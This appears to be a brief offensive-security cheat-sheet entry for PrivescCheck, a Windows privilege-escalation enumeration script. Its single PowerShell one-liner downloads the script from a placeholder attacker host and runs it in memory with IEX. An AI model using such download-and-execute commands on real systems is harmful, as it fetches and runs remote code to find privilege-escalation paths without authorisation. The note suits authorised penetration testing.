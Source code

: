 # PrivescCheck

#plateform/windows #target/local #cat/RECON #tag/powershell

## onliner
```powershell
(new-object system.net.webclient).downloadstring('http://<local_ip>:<port|80>/windows/windows_weaponize/ps/empire/privesc/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck -Extended
```